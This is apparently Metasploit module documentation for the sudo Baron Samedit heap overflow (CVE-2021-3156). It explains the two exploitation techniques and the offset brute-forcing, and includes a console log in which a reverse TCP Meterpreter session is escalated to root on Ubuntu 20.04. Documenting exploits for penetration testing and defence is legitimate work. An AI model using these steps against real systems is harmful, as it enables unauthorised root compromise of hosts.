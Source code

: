 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. Most targets use a technique
that leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo. Other targets 
coerce an arbitrary line write to /etc/passwd, adding a new root user. This latter technique performs a 
partial overwrite of a memory address, requiring a brute force of ASLR.

### Manual Target

The service_user technique requires a number of lengths / offsets to function correctly. The manual target can be
used to specify these values if they are known. To identify the values, use the `brute.sh` script from the original
PoC repository at [blasty/CVE-2021-3156][1]. This will only work on systems with tcache support in libc (>= 2.26).

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/sudo_baron_samedit`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

### NewUser
*This is an advanced option.*

For targets using the second technique (adding a user to /etc/passwd), this is the name of the user.
In the event of a successful exploit, the module will remove that user from /etc/passwd as a cleanup measure.
If the exploit partially succeeds (that is, writes to /etc/passwd, but does not result in a shell), this 
account will need to be manually cleaned up. 

### NewPassword
*This is an advanced option.*

For targets using the second technique (adding a user to /etc/passwd), this is the new password. If left blank,
the system creates a long, random password.

## Scenarios

### Ubuntu 20.04.1 x64

```
msf exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  42.75% done (342/800 bytes)
[*] Sending stage (980808 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:47868) at 2021-02-11 11:55:21 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (800/800 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/ssh/sshexec) > use exploit/linux/local/sudo_baron_samedit
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf exploit(linux/local/sudo_baron_samedit) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(linux/local/sudo_baron_samedit) > set TARGET Automatic
TARGET => Automatic
msf exploit(linux/local/sudo_baron_samedit) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. sudo 1.8.31 maybe a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/libnss_9S9MeS/tB8M .so.2' (564 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:47870) at 2021-02-11 11:55:56 -0500
[+] Deleted /tmp/p60htQTDNO
[+] Deleted /tmp/libnss_9S9MeS/tB8M .so.2
[+] Deleted /tmp/libnss_9S9MeS

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
